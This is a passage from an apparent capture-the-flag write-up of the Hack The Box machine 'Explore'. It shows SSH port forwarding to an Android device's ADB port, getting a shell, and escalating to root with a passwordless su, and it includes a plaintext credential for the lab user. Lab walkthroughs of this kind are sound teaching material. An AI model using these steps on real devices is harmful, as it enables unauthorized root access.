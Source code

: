 ## Port Forwarding

We can see port 5555 is listening on localhost. I can do port forwarding through SSH to port 5555 and use ADB installed on Kali to interact with it:

```text
┌──(root💀kali)-[~/htb/explore]
└─# ssh -p 2222 -L 5555:localhost:5555 kristi@10.10.10.247
Password authentication
Password: 
:/ $
```

So now I'm logged in to SSH as kristi again, but this time any traffic sent to my local 5555 port on Kali will be forwarded through the SSH connection to port 5555 on the box. We can try to connect using ADB again:


kristi:Kr1sT!5h@Rp3xPl0r3!

```text
┌──(root💀kali)-[~/htb/explore]
└─# adb connect localhost:5555
connected to localhost:5555
```

## Root Flag

This time we get connected and the prompt returns so we can start a shell:

```text
┌──(root💀kali)-[~/htb/explore]
└─# adb shell                 
x86_64:/ $ id
uid=2000(shell) gid=2000(shell) groups=2000(shell),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3009(readproc),3011(uhid) context=u:r:shell:s0
x86_64:/ $ whoami
shell
```

It works and we are connected through our tunnel. If you look back at the article I found earlier it says you can just su with no password:

```text
x86_64:/ $ su
:/ # whoami
root
:/ # id
uid=0(root) gid=0(root) groups=0(root) context=u:r:su:s0
```

That also works here, nice!  Now we just need to look around to find the root flag:

```text
:/ # ls -l
dr-xr-xr-x  52 root   root         0 2021-09-25 18:52 acct
lrwxrwxrwx   1 root   root        11 2021-09-25 18:52 bin -> /system/bin
lrwxrwxrwx   1 root   root        50 2021-09-25 18:52 bugreports -> /data/user_de/0/com.android.shell/files/bugreports
drwxrwx---   6 system cache      120 2021-09-25 18:52 cache
lrwxrwxrwx   1 root   root        13 2021-09-25 18:52 charger -> /sbin/charger
drwxr-xr-x   3 root   root         0 2021-09-25 18:52 config
lrwxrwxrwx   1 root   root        17 2021-09-25 18:52 d -> /sys/kernel/debug
drwxrwx--x  37 system system    4096 2021-03-15 16:49 data
<SNIP>

:/ # ls -ls data
<SNIP>
```